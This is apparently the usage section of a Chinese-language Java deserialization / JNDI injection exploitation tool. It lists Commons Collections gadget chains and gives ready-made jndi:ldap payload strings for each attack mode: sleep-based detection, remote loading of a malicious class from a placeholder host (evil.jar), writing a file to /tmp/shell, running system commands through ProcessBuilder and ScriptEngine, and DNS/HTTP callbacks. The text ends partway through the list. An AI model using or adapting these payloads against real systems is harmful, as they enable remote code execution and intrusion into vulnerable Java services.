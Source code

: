 对于Gadget：

- CommonsCollections1
- CommonsCollections5
- CommonsCollections6
- CommonsCollectionsK3
- CommonsCollectionsK4
- CommonsCollections7
- commonscollectionsK5
- CommonsCollections9

* 使用 `Transformer[]` 数组实现

为其拓展了除了 Runtime 执行命令意外的多种利用方式，具体如下：

TS ：Thread Sleep - 通过 Thread.sleep() 的方式来检查是否存在反序列化漏洞，使用命令：TS-10

```
jndi:ldap://127.0.0.1:1389/Deserialization/CommonsCollections1/command/Base64/TS-10
```

RC ：Remote Call - 通过 URLClassLoader.loadClass()
来调用远程恶意类并初始化，使用命令：RC-http://xxxx.com/evil.jar#EvilClass

```
jndi:ldap://127.0.0.1:1389/Deserialization/CommonsCollections1/command/Base64/RC-http://xxxx.com/evil.jar#EvilClass
```

WF ：Write File - 通过 FileOutputStream.write() 来写入文件，使用命令：WF-/tmp/shell#d2hvYW1p

```
jndi:ldap://127.0.0.1:1389/Deserialization/CommonsCollections1/command/Base64/WF-/tmp/shell#d2hvYW1p
```

PB ：ProcessBuilder 通过 ProcessBuilder.start() 来执行系统命令，使用命令 ```PB-lin-d2hvYW1p``` / ```PB-win-d2hvYW1p```
分别在不同操作系统执行命令

```
jndi:ldap://127.0.0.1:1389/Deserialization/CommonsCollections1/command/Base64/PB-lin-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA==
```

SE ：ScriptEngine - 通过 ScriptEngineManager.getEngineByName('js').eval() 来解析 JS 代码调用 Runtime 执行命令，使用命令
SE-d2hvYW1

```
jndi:ldap://127.0.0.1:1389/Deserialization/CommonsCollections1/command/Base64/SE-d2hvYW1
```

DL ：DNS LOG - 通过 InetAddress.getAllByName() 来触发 DNS 解析，使用命令 DL-xxxdnslog.cn

```
jndi:ldap://127.0.0.1:1389/Deserialization/CommonsCollections1/command/Base64/DL-xxxdnslog.cn
```

HL ：HTTP LOG - 通过 URL.getContent() 来触发 HTTP LOG，使用命令 HL-http://xxx.com
